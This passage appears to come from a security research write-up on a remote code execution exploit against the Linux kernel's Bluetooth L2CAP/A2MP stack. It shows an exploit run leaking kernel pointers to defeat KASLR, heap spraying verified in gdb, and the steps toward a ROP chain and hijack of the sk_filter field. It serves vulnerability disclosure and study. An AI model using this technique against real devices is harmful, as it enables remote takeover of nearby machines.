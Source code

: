 Both MTU limitations are easy to bypass. Namely, we can bypass the ACL MTU by fragmenting the request into multiple L2CAP packets, and we can bypass the A2MP MTU by sending a `L2CAP_CONF_MTU` response and configuring it to 0xffff bytes. Here again, it is unclear why the Bluetooth specification does not explicitly disallow parsing configuration responses if no request has been sent.

Let’s try out the technique:

```bash
$ gcc -o exploit exploit.c -lbluetooth && sudo ./exploit XX:XX:XX:XX:XX:XX
[*] Opening hci device...
[*] Connecting to victim...
[+] HCI handle: 100
[*] Connecting A2MP channel...
[*] Leaking A2MP kernel stack memory...
[+] Kernel address: ffffffffad2001a4
[+] KASLR offset: 2b600000
[*] Preparing to leak l2cap_chan address...
[*] Leaking A2MP kernel stack memory...
[+] l2cap_chan address: ffff98ee5c62fc00
[*] Spraying kmalloc-1024...
```

Notice how the most significant bytes of both leaked pointers differ. By observing the higher bytes, we can make an educated guess (or check the Linux documentation) to determine whether they belong to a segment, heap, or stack. To confirm that we were indeed able to reclaim the address of `struct l2cap_chan`, we can inspect the memory on the victim's machine using:

```bash
$ sudo gdb /boot/vmlinuz /proc/kcore
(gdb) x/40gx 0xffff98ee5c62fc00
0xffff98ee5c62fc00:	0x4141414141414141	0x4242424242424242
0xffff98ee5c62fc10:	0x4343434343434343	0x4444444444444444
0xffff98ee5c62fc20:	0x4545454545454545	0x4646464646464646
0xffff98ee5c62fc30:	0x4747474747474747	0x4848484848484848
...
0xffff98ee5c62fd00:	0x6161616161616161	0x6262626262626262
0xffff98ee5c62fd10:	0x6363636363636363	0x6464646464646464
0xffff98ee5c62fd20:	0x6565656565656565	0x6666666666666666
0xffff98ee5c62fd30:	0x6767676767676767	0x6868686868686868
```

The memory content looks very promising! Note that it is useful to spray with a pattern, since that allows us to recognize memory blocks immediately and understand which offsets get dereferenced when a panic is hit.

### Plugging It All Together

We now have all primitives we need to complete our RCE:

1. We can control a memory block whose address we know (referred to as the "payload").
2. We can leak a .text segment pointer and build a ROP chain which we can store in the payload.
3. We can take full control over the `sk_filter` field and point it to our payload.

#### Achieving RIP Control
